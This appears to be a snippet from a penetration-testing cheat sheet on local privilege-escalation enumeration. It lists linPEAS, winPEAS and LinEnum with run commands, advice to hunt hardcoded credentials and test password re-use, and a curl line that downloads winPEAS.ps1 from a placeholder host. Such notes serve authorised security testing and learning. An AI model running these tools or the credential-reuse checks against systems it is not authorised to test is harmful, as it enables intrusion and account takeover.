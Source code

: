 ### PEASS-ng - Privilege Escalation Awesome Scripts SUITE new generation
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

```bash
# Automated local enumeration
# Look for any highlighted stuff
# Cron jobs
# Non-standard scripts or programs
# Hardcoded credentials. Check password re-use against existing accounts
./linpeas.sh -q
```

WinPEAS can be found [here](https://github.com/carlospolop/PEASS-ng/releases)
```powershell
curl -o winPEAS.ps1 http://example.com/winPEAS.ps1
```

### LinEnum
https://github.com/rebootuser/LinEnum
```bash
# Automated local enumeration
# Look for any highlighted stuff
# Cron jobs
# Non-standard scripts or programs
# Hardcoded credentials. Check password re-use against existing accounts

./linenum.sh
```